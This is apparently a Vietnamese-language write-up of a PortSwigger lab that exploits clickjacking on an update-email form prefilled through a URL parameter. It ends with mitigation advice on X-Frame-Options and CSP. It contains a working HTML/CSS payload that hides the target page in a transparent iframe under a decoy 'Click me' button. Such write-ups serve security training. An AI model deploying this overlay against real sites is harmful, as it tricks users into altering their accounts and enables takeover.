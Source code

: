 # Write-ups: Clickjacking with form input data prefilled from a URL parameter

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi trang `/my-account` cho phép điền trước email qua tham số URL (`email=...`) và không có bảo vệ chống nhúng iframe như header `X-Frame-Options` hoặc `Content-Security-Policy` (CSP). Kẻ tấn công nhúng trang `/my-account` với email điền trước vào iframe trong Exploit Server, sử dụng div giả mạo ("Click me") đặt chồng lên nút "Update email" để lừa người dùng nhấp, cập nhật email thành giá trị do kẻ tấn công kiểm soát, hoàn thành lab.

### Mục tiêu
- Khai thác clickjacking bằng cách nhúng trang `/my-account` với email điền trước qua URL vào iframe, đặt div giả mạo lên nút "Update email", lừa người dùng nhấp để cập nhật email và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Trang `/my-account` có form update email, cho phép điền trước email qua tham số email trong URL.
    - Nhấp nút "Update email" gửi yêu cầu POST với email điền trước, có CSRF token.
    - Response header không có `X-Frame-Options` hoặc CSP, cho phép nhúng iframe:
        ![email](./images/1_get_email.png)

- **Kiểm tra khả năng nhúng iframe**
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang `/my-account`:
        ```html
        <iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>
        ```
    - Store và view exploit:
        - Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
            ![iframe](./images/2_iframe.png)

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Update email" với email điền trước:
    ```html
    <style>
        iframe {
            position:relative;
            width:1000px;
            height: 700px;
            opacity: 0.00001;
            z-index: 2;
        }
        div {
            position:absolute;
            top:465px;
            left:70px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0ac900230344bcdc80bb0399009f00c4.web-security-academy.net/my-account?email=aaaa%40gmail.com"></iframe>
    ```
    ![body](./images/4_body.png)
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` với email điền trước (`aaaa@gmail.com`), div "Click me" đặt chồng lên nút "Update email" để lừa nhấp, cập nhật email.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**:
        - Khi nạn nhân (đã đăng nhập) nhấp vào "Click me", form cập nhật email được gửi với `email=aaaa@gmail.com` và CSRF token từ phiên của họ, cập nhật email thành công và hoàn thành lab.
            ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác clickjacking bằng cách nhúng trang `/my-account` với email điền trước qua URL vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Update email", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc `Content-Security-Policy: frame-ancestors 'none'` để ngăn nhúng iframe và kiểm tra an toàn tham số URL để bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking với dữ liệu form điền trước qua tham số URL, nhấn mạnh tầm quan trọng của việc sử dụng X-Frame-Options hoặc CSP và kiểm tra an toàn tham số URL để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*